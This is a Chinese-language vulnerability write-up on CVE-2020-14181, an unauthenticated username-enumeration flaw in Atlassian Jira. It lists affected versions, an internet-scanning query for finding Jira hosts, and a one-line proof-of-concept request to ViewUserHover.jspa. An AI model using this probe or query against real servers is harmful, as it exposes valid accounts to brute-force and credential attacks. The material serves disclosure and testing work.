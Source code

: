 # Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

<a-checkbox checked>Atlassian Jira < 7.13.6</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.0.0 - 8.5.7</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.6.0 - 8.12.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jira"</a-checkbox></br>

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![img](/assets/PeiQi-Wiki/img/jira-1.png)



使用POC对用户名是否存在进行验证

```
/secure/ViewUserHover.jspa?username=admin
```

用户名如果不存在会返回

![img](/assets/PeiQi-Wiki/img/jira-2.png)



存在的用户名会返回

![img](/assets/PeiQi-Wiki/img/jira-4.png)



不存在漏洞会返回

![img](/assets/PeiQi-Wiki/img/jira-3.png)



## 
